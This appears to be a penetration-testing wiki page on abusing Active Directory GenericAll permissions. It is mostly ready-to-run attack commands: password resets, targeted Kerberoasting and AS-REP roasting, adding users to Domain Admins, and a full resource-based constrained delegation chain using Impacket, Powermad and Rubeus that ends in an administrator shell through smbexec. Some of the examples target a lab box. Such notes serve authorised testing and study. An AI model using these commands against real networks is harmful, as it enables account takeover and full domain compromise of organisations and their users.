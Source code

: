# GenericAll Abuse



## Introduction

Active Directory users are defined by securable objects known as ACL/ACE's. Active Directory Discretionary Access Control Lists (DACLs) and Acccess Control Entries (ACEs). These define what permissions the user has and can or cannot do  (i.e change account name, reset password, etc).&#x20;

<mark style="color:yellow;">**GenericAll is the "God Mode" of the object permissions.**</mark>

Here are some AD object permissions we're interested in.

* **GenericAll** - full rights to the object (add users to a group or reset user's password - <mark style="color:yellow;">God mode</mark>).
* **GenericWrite** - update object's attributes (i.e logon script)
* **WriteOwner** - change object owner to attacker controlled user take over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self (Self-Membership)** - ability to add yourself to a group



## Abusing GenericAll

There are three types of objects that can a user can have GenericAll permissions. User, Group, and Computer.

To view ACL/ACE permissions we can use tools like **`PowerView`** and **`Bloodhound`**.



### GenericAll on User

*   **Change password**: You could just change the password of that user with

    ```powershell
    net user <username> <password> /domain
    ```
*   **Targeted Kerberoasting**: You could make the user **kerberoastable** setting an **SPN** on the account, kerberoast it and attempt to crack offline:

    ```powershell
    # Set SPN
    Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
    # Get Hash
    .\Rubeus.exe kerberoast /user:<username> /nowrap
    # Clean SPN
    Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose

    # You can also use the tool https://github.com/ShutdownRepo/targetedKerberoast 
    # to get hashes of one or all the users
    python3 targetedKerberoast.py -domain.local -u <username> -p password -v
    ```
*   **Targeted ASREPRoasting**: You could make the user **ASREPRoastable** by **disabling** **preauthentication** and then ASREProast it.

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### GenericAll on Group

We can add a user we control to the vulnerable group.

```powershell
net group "domain admins" <username> /add /domain
```



### GenericAll on Computer

A common attack with generic all on a computer object is to add a fake computer to the domain.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If enumerating and we see a user has GenericAll permission on a computer we know we full control.

We can perform a <mark style="color:yellow;">**Kerberos Resourced Based Constrained Delegation attack**</mark>: computer takover. This attack allows us to impersonate a specific user (Administrator).





## Abusing GenericAll Computer Object Kerberoast Ticket Abuse

###

### Also known as: "Resource Based Constrained Delegation Attack"

We will be following this guide [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

### Toshi's "Impacket" method.

### Add Computer to Domain

We'll first need to add a new machine. We can add a computer to the domain with impacket-addcomputer.

Below are some useful commands.

<pre class="language-powershell"><code class="lang-powershell"><strong># Add a computer to the domain via domain credentials
</strong>impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'

#Add a computer account via hashed credentials
impacket-addcomputer domain.com/user -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
<strong>
</strong><strong># Add a computer account via domain credentials
</strong>impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'

# Modify a computer account password
impacket-addcomputer -computer-name 'COMPUTER$' -computer-pass 'SomePassword' -dc-host $DomainController -no-add 'DOMAIN\user:password'

# Delete a computer account
impacket-addcomputer -computer-name 'COMPUTER$' -dc-host $DomainController -delete 'DOMAIN\user:password'
</code></pre>

### Toshi's rbcd attack

{% embed url="https://github.com/tothi/rbcd-attack" %}

#### Creating the fake computer

Using addcomputer.py example from Impacket let's create a fake computer (called `evilcomputer`):

```
addcomputer.py -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.33.203 ecorp.local/test:ohW9Lie0
```

#### Modifying delegation rights

Implemented the script [rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py) found here in the repo which adds the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer.

```
./rbcd.py -f EVILCOMPUTER -t WEB -dc-ip 192.168.33.203 ecorp\\test:ohW9Lie0
```

The script uses heavily the Python classes in the `ntlmrelayx.py` Impacket example. For help and an example call the script without options.

#### Getting the impersonated service ticket

Now everything is ready for abusing the Constrained Delegation by an S4U2Self query and get an impersonated Service Ticket for the target computer. With `getST.py` Impacket example script:

```
getST.py -spn cifs/WEB.ecorp.local -impersonate admin -dc-ip 192.168.33.203 ecorp.local/EVILCOMPUTER$:ev1lP@sS
```

The above command fetches a CIFS Service Ticket on behalf of the targetted domain user `admin` and stores it in the file `admin.ccache`.

After adding the file path to the KRB5CCNAME variable the ticket is usable for Kerberos clients.

```
export KRB5CCNAME=`pwd`/admin.ccache
klist
```





### Server Side Method

Here is another way to abuse GenericAll on a computer group

```powershell
# -------- On Server Side
# Upload tools
upload /home/user/Tools/Powermad/Powermad.ps1 pm.ps1
upload /home/user/Tools/Ghostpack-CompiledBinaries/Rubeus.exe r.exe

# Import PowerMad
Import-Module ./pm.ps1

# Set variables
Set-Variable -Name "FakePC" -Value "FAKE01"
Set-Variable -Name "targetComputer" -Value "DC"

# With Powermad, Add the new fake computer object to AD.
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')

# With Built-in AD modules, check that the last command worked.
Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```



<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```powershell
# With Rubeus, generate the new fake computer object password hashes. 
#  Since we created the computer object with the password 123456 we will need those hashes
#  for the next step.
./r.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
# -------- On Attck Box Side.
# Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
#   If you are getting errors, "cd ~/impacket/", "python3 -m pip install ."
/home/user/Tools/impacket/examples/getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B

# Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
export KRB5CCNAME=administrator.ccache

# Use smbexec.py to connect with the TGT we just made to the server as the user administrator 
#  over SMB protocol.
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```
